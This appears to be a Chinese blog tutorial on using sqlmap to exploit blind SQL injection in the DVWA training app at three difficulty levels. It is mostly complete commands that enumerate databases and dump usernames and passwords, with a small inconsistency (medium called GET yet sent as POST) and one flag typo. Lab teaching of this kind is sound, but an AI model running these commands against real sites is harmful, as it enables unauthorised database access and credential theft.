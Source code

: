 ```yaml
---
title: sqlmap使用方法与实践
date: '2022/1/23 23:15:01'
categories:
  - - WEB安全
    - 注入
    - SQL
abbrlink: ec5a5683
description: 使用sqlmap对dvwa上面的典型漏洞进行攻击
tags:
---
```


## sqlmap使用方法与实践

以攻击dvwa的low、medium、high三个难度为例

**知识点：**

> 使用--cookie加入了cookie中的参数
> 使用--dbms指定数据库类型
> 使用--technique指定注入方式（这里的B代表布尔盲注）
> 使用--fresh-queries可以让sqlmap不从缓存中加载数据
> 使用--data通过POST发送数据参数
> 使用*来指定注入点

**注入流程：**

（1）爆破数据库名
```sql
--dbs 
 ```


（2）爆破数据库名为dvwa下的所有表名
```sql
-D dvwa --tables
 ```

（3）爆破数据库名为dvwa、数据表为users下的所有列名
```sql
-D dvwa -T users --columns
 ```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据
```sql
-D dvwa -T users -C user,password --dump
 ```

### low难度
> 这个是get方法

（1）爆破数据库名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B --dbs
```

（2）爆破数据库名为dvwa下的所有表名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B -D dvwa --tables
```

（3）爆破数据库名为dvwa、数据表为users下的所有列名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B -D dvwa -T users --columns
```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B -D dvwa -T users -C user,password --dump
```

### medium难度
> 这个是get方法，所以要使用--data通过POST发送数据参数

（1）爆破数据库名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B --dbs --fresh-queries
```

（2）爆破数据库名为dvwa下的所有表名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B -D dvwa --tables --fresh-queries
```

（3）爆破数据库名为dvwa、数据表为users下的所有列名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B -D dvwa -T users --columns --fresh-queries
```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B -D dvwa -T users -C user,password --dump --fresh-queries
```

### high难度
> 注入参数在cookie，使用*来指定cookie中的注入点为id

（1）爆破数据库名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" --dbms mysql --technique=B --dbs --fresh-queries
```

（2）爆破数据库名为dvwa下的所有表名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" --dbms mysql --technique=B -D dvwa --tables --fresh-queries
```

（3）爆破数据库名为dvwa、数据表为users下的所有列名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" --dbms mysql --technique=B -D dvwa -T users --columns --fresh-queries
```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" -dbms mysql --technique=B -D dvwa -T users -C user,password --dump --fresh-queries
```
